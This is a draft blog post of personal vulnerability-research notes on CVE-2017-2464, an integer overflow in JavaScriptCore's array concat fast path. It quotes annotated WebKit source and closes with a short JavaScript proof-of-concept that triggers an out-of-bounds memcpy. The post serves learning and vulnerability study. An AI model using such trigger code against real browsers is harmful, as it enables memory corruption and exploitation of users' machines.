 ```yaml
---
layout: post
title: Notes on CVE-2017-2464
date: 2021-01-12
permalink: /:title/
description: "yooo"
tags: [vulnerability research]
share: true
comments: false
published: false
status: ongoing
---
```


This is an attempt I made somewhere around April in 2019 at finding an already known vulnerability.
More specifically, these are the notes I took while trying to come up with a clear idea of what
the problem was with the following piece of code.
Such attempt was made only being aware of the existence of said vulnerability (an integer overflow).

```
git rev-list -1 --before="2017-01-20 12:00" master
```

| Target | Javascript Core |
| commit |     956c6759d161d678125b0b9b8128e3fe6bd37c69 |
| file |     jsc/I dont remember |


<pre>
function concatSlowPath()
{
    "use strict";

    if (this == null)
        @throwTypeError("Array.prototype.concat requires that |this| not be null or undefined");

    var currentElement = @Object(this);

    var constructor; [[This block isn't too interesting, it is used to get the constructor of the object that called ".concat"::lsn]]
    if (@isArray(currentElement)) {
        constructor = currentElement.constructor;
        if (@isArrayConstructor(constructor) && @Array !== constructor) [[We have this check so that if some array from a different global object calls this map they don't get an array with the Array.prototype of the other global object::rsn]]
            constructor = @undefined;
        else if (@isObject(constructor)) {
            constructor = constructor.@speciesSymbol;
            if (constructor === null)
                constructor = @Array;
        }
    }

    var argCount = arguments.length;
    var result;
    if (constructor === @Array || constructor === @undefined) [[non-array objects can too call concat, so before proceeding any further, make sure 'result' is the of the same type as *this::rsn]]
        result = @newArrayWithSize(0);
    else
        result = new constructor(0);
    
    var resultIsArray = @isJSArray(result);[[This will be later used to decide which path to take::rsn]]

    var resultIndex = 0;
    var argIndex = 0;

    do {
        let spreadable = @isObject(currentElement) && currentElement.@isConcatSpreadableSymbol;[[This is the codepath of interest as the else clause explicitly checks for overflows::lsn]]
        if ((spreadable === @undefined && @isArray(currentElement)) || spreadable) { 
            let length = @toLength(currentElement.length);
            if (resultIsArray && @isJSArray(currentElement)) { [[Again, this kind of overflow can only be triggered with arrays::rsn]]
                @appendMemcpy(result, currentElement, resultIndex); [[appendMemcpy is probably safe, though it is called in the wrong way::lsn]]
                resultIndex += length;
            } else {
                if (length + resultIndex > @MAX_SAFE_INTEGER)
                    @throwTypeError("length exceeded the maximum safe integer");
                for (var i = 0; i < length; i++) {
                    if (i in currentElement)
                        @putByValDirect(result, resultIndex, currentElement[i]);[[For non-array objects that can be iterated upon, follow a slightly different road @putByValDirect(values, index, argument);::rsn]]
                    resultIndex++;
                }
            }
        } else {
            if (resultIndex >= @MAX_SAFE_INTEGER)
                @throwTypeError("length exceeded the maximum safe integer");
            @putByValDirect(result, resultIndex++, currentElement);
        }
        currentElement = arguments[argIndex];
    } while (argIndex++ < argCount);

    result.length = resultIndex; [[what if the vunlerability consists in increasing resultIndex::rsn]]
    return result;
}
</pre>

<pre>
bool JSArray::appendMemcpy(ExecState* exec, VM& vm, unsigned startIndex, JSC::JSArray* otherArray)
{
    auto scope = DECLARE_THROW_SCOPE(vm);

    if (!canFastCopy(vm, otherArray)) [[I can only copy in the fast way::lsn]]
        return false;

    // A memcpy is being called. In order to do the copy,
    // everything from type to size must be the same. In
    // order to figure out how much mem to allocate, and
    // how to use it, it is necessary to know how the object
    // is layed out first.
    IndexingType type = indexingType();
    IndexingType copyType = mergeIndexingTypeForCopying(otherArray->indexingType());

    if (type == ArrayWithUndecided && copyType != NonArray) { [[Depending on the type of the array to be copied, take a different path::lmn]]
        if (copyType == ArrayWithInt32)
            convertUndecidedToInt32(vm);
        else if (copyType == ArrayWithDouble)
            convertUndecidedToDouble(vm);
        else if (copyType == ArrayWithContiguous)
            convertUndecidedToContiguous(vm);
        else {
            ASSERT(copyType == ArrayWithUndecided);
            return true;
        }
    } else if (type != copyType)
        return false;

    unsigned otherLength = otherArray->length();
    unsigned newLength = startIndex + otherLength;
    if (newLength >= MIN_SPARSE_ARRAY_INDEX)
        return false;
 
    if (!ensureLength(vm, newLength)) { [[make sure the array is contiguous::rsn]]
        throwOutOfMemoryError(exec, scope);
        return false;
    }
    ASSERT(copyType == indexingType());

    if (type == ArrayWithDouble)
        memcpy(butterfly()->contiguousDouble().data() + startIndex, otherArray->butterfly()->contiguousDouble().data(), sizeof(JSValue) * otherLength);
    else
        memcpy(butterfly()->contiguous().data() + startIndex, otherArray->butterfly()->contiguous().data(), sizeof(JSValue) * otherLength);

    return true;
}
</pre>

```
Feedback:

 Both [?] were correct.
 
 -> Why did I not find the vulnerability ?

    the lack of context in jsc's codebase
    definitely made things harder. The
    main reason i did not know

    unsigned newLength = startIndex + otherLength

    is a vulnerable thing, because i didn't connect
    the memcpy call to the very short buffer. Had I
    thought about how memcpy interacts with the length
    of the buffer I should would have found it
```

// PoC
<pre>
var a = []; 
a.length = 0xffffff00;
var b = a.splice(0, 0x100000); // Undecided array

var args = [];
args.length = 4094;
args.fill(b);

var q = [];
q.length = 0x1000;
q.fill(7);

var c = a.splice(0, 0xfffef); //Shorter undecided array

args[4094] = c;
args[4095] = q;


b.concat.apply(b, args);
</pre>

[[***Changelog***<br>
• 12/01/2021: Sidenotes <br>
::rmn]]

